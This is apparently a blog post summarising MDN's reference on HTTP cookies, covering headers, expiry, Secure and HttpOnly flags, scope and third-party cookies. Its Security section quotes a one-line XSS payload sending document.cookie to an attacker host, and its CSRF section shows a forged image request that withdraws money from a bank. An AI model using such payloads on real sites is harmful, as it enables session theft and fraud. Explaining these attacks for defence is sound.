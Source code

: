 ```yaml
---
layout : post
title : Http Cookie
comments: true
categories : Other
---
```


  An HTTP cookie is a small piece of data that a server sends to the user's web browser. 
  
  The browser stores it(if it is enabled) and send it back to the same server in subsequent each request
  inside a Cookie HTTP header.  

### Purpose

  1. Session management
  2. Personalization
  3. Tracking
  
### Storage

  It is recommended nowadays to prefer modern storage APIs to improve performance. 
  
  Modern APIs for client storage are the [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) (`localStorage` and `sessionStorage`) 
  and [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API).
  
### Creating cookies

  When receiving an HTTP request, a server can send a `Set-Cookie` header with the response. A simple cookie is set like this:
  
  > Set-Cookie: \<cookie-name\>=\<cookie-value\>
  
  This header from the server tells the client to store a cookie.
  
  After that, the browser will send back all previously stored cookies to the server using the `Cookie` header.
  
### Session cookies

  Session cookie will be deleted when the browser shuts down, because it didn't specify an `Expires` or `Max-Age` directive.
  
### Permanent cookies

  Permanent cookies expire at a specific date (`Expires`) or after a specific length of time (`Max-Age`).
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
  
  Note: When an expiry date is set, the time and date set is relative to the client the cookie is being set on, not the server.
  
### Secure and HttpOnly cookies

  A `secure` cookie is only sent to the server over the `HTTPS` protocol. 
  
  **Note: This flag doesn't make sure the cookies will be sent secure.** 
  
  To prevent cross-site scripting (XSS) attacks, `HttpOnly` cookies are inaccessible to JavaScript's `Document.cookie` API,
  that is if the `HttpOnly` flag is not set, existing cookies can be accessed from JavaScript like `console.log(document.cookie);`.
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
  
### Scope of cookies

  The `Domain` and `Path` directives define the scope of the cookie: what URLs the cookies should be sent to.

  `Domain` specifies allowed hosts to receive the cookie. 
  If unspecified, it defaults to the host of the current document location, **excluding subdomains**. 
  If it is specified, then subdomains are always included.

  For example, if `Domain=mozilla.org` is set, then cookies are included on subdomains like `developer.mozilla.org`.

  `Path` indicates a URL path that must exist in the requested URL in order to send the Cookie header. 
  
  For example, if `Path=/docs` is set, these paths will match:

  - `/docs`
  - `/docs/Web/`
  - `/docs/Web/HTTP`
  
### Security

  Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.
  
  > (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  
### Cross-site request forgery (CSRF)

  Someone includes an image that isn’t really an image (for example in an unfiltered chat or forum), 
  instead it really is a request to your bank’s server to withdraw money:
  
  > \<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
  
### Third-party cookies

  Cookies have a domain associated to them. If this domain is the same as the domain of the page you are on, 
  the cookies is said to be a **first-party cookie**. If the domain is different, it is said to be a **third-party cookie**. 
  
  While `first-party` cookies are sent only to the server setting them, 
  a web page may contain images or other components stored on servers in other domains (like ad banners).
  
### Do-Not-Track

  The `DNT` header can be used to signal that a web application should disable either its tracking or 
  cross-site user tracking of an individual user. 
  
### References

[mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
